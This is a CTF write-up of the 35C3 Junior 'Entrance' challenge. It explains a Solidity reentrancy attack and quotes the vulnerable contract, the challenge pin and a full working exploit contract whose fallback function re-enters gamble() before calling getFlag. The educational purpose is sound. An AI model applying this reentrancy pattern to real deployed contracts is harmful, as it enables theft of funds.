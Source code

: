 #ctf-Entrance

Link to challenge: https://junior.35c3ctf.ccc.ac/challenges/ > Of Course >
Entrance.

### Introduction

This repository is the solution to the Junior 35C3CTF Entrance, a Solidity
reentrancy attack. The expl0it is a simple recursion based on the
`msg.sender.call` statement contained in the vulnerable contract.

### The Attack

Right from the get go, when looking at the contract code, one can see that
there is a `getFlag` method in the vulnerable contract. To call it, a player
needs a balance of >= 300.

```
  function getFlag(string memory _server, string memory _port) public {
    require (balances[msg.sender] > 300, "flag");
    emit EntranceFlag(_server, _port);
  }
```

An event is emitted with a `server` and `port` string. Our initial assumption
was that when the event is triggered by someone on the ropsten contract, a
server from the CTF team is listening for these events and will send back the
flag to a listening server the player has to setup.

But first, let's enter the game. To do that a player needs to call a method
called `enter(uint256 _pin)` on the the entrance.sol contract. A pin is needed
and wasn't specified in any of the hints. It's however easy to find in the data
of the [contract creation
transaction](https://ropsten.etherscan.io/address/0x1898Ed72826BEfa2D549004C57F048A95ae0B982#code).

```
  modifier legit(uint256 _pin) {
    if (_pin == pin, "bye") _;
  }

  function enter(uint256 _pin) public legit(_pin) {
    balances[msg.sender] = 10;
    has_played[msg.sender] = false;
  }
```

As we can call `getFlag` only with a balance of 300, we have to gamble with a
function called `gamble()`. Unfortunately, this function only adds 10 to the
player's balance and then doesn't allow the player to play again as
`has_played` is then set to `true`.


```
  modifier onlyNewPlayer {
    require(has_played[msg.sender] == false, "hello");
    _;
  }

  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10, "gamble");
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      balance = balances[msg.sender];
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }

```

We can also see that one can only successfully gamble when the `block.number`
is divisible by 7, as otherwise funds are subtracted from the balance of the
player.

With this in mind we were quite confused at first what to do and re-read the
description of the challenge again:

```
Can you enter? Again?
```

So the question is: Can we enter `gamble` again. Turns out we can.  In fact, if
the `msg.sender.call` function doesn't call a valid function, [it defaults to a
so called
fallback-function](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity/42585#42585)
that can be defined in a calling contract.

With knowing this, we made the following plan:

- Create a smart contract that has a function `enter` that calls `entrance.enter`
with the given pin `0xbc4f77`
- Check if the current `block.number` is divisible by 7 and if so call `gamble`
- Define a fallback function in our exploit contract that checks if the balance
is less than 300 and if so, call `gamble` again.

After a lot of back and forth and some quite fun but also frustrating hours, we
arrived at the following code:

```
pragma solidity >=0.4.21 <0.6.0;

import "./entrance.sol";
import "./SafeMath.sol";

contract EnterAgain {
    using SafeMath for *;

    uint256 counter = 0;
    address a;

    constructor(address _a) {
        a = _a;
    }

    function enter() {
        uint b = block.number;
        require((b).mod(7) == 0, "wrong block number");
        Entrance entrance = Entrance(a);
        entrance.enter(0xbc4f77);
        entrance.gamble();
        entrance.getFlag("34.254.178.181", "8080");
    }

    function() {
        Entrance entrance = Entrance(a);
        if(entrance.balances(this) <= 300) {
            entrance.gamble();
        }
    }
}
```

In the constructor, we set the address `a` of the vulnerable contract.  In
`enter`, we call `block.number` and check if it's divisible by 7. We then
instanciate the vulnerable contract, call `enter` and `gamble`. We run through
the gambling game by continously falling back to our fallback-function
`function()` to ultimately stop, and call `getFlag`. After the transaction is
confirmed, our netcat server was answered with the flag.


### Tips

- Modify all require statements with a second argument string to know where the
  contract reverts. Additionally, change all `if`s to require with a second
  argument string so that you can debug them better.
- Always debug locally with Ganache and Truffle. It's so much easier than
  deploying live. There is additionally `truffle debug <tx id>` which can be
  very helpful for debugging a transaction step by step.
- If stuck, remove checks from the vulnerable contract to get your script
  passing.  It will really accelerate your workflow.

